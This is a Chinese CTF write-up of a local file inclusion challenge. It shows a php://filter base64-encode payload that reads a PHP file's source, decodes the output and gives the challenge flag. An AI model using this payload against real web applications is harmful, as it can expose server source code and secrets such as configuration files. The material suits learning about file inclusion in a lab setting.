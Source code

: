 ```yaml
---
layout:     post
title:      SJU-LFI-wp
subtitle:   
date:       2017-12-01
author:     FNX
header-img: img/home-bg-art.jpg
catalog: true
tags:
    - WP
    - LFI
    - WEB
---
```

# SJU 

## LFI

#### 0x00 [原理]
     文件包含漏洞（LFI）
     
#### 0x01 [目的]
     了解与掌握文件包含漏洞
     
#### 0x02 [环境]
     windows
     
#### 0x03 [工具]
     Chrome
     
#### 0x04 [步骤]

1.打开题目，emmmm，出现了假的flag

![](/files_for_wp/lfi1.png)

2.仔细观察，发现有提示目标文件，文件名为：flag

3.尝试文件包含漏洞,可参考[LFI](http://blog.csdn.net/hitwangpeng/article/details/45952625)

4.使用PHP封装协议：读取PHP文件

  例子如下：http://www.example.com/index.php?page=php://filter/read=convert.base64-encode/resource=config.php

  访问URL，得到经过Base64加密后的字符串，这段代码就是Base64加密过后的PHP源代码，解密后可以得到原本的“样貌”。

  根据例子构造本题的payload：?file=php://filter/read=convert.base64-encode/resource=flag

4.得到Base64加密过后的PHP源代码：PD9waHAKCi8vIHRoaXMgaXMgdGhlIHJlYWwgZmxhZyEKLy8gY29uZ3JhdHVsYXRpb25zIQokZmxhZyA9IHVybGRlY29kZShiYXNlNjRfZGVjb2RlKCdVMHBWSlRkQ2RISjVhVzVuWHpKZmRYTmxYMHhHU1Y5NVpXRm9YeVV5TVNVM1JBPT0nKSk7Cgo/PgpTSlV7dGhpc19pc190aGVfZmFrZV9mbGFnfQo8YnI+PGJyPgpTb3JyeSwgdGhpcyBpcyBub3QgdGhlIHJlYWwgZmxhZy4K

  ![](/files_for_wp/lfi2.png)

5.在线Base64解码：

  ![](/files_for_wp/lfi3.png)

  得到flag的具体内容：flag = urldecode(base64_decode('U0pVJTdCdHJ5aW5nXzJfdXNlX0xGSV95ZWFoXyUyMSU3RA=='))

6.先Base64解码：SJU%7Btrying_2_use_LFI_yeah_%21%7D
  
  ![](/files_for_wp/lfi4.png)

  再urldecode：SJU{trying_2_use_LFI_yeah_!}

  ![](/files_for_wp/lfi5.png)

7.flag：SJU{trying_2_use_LFI_yeah_!}
#### 0x05 [总结]
    文件包含
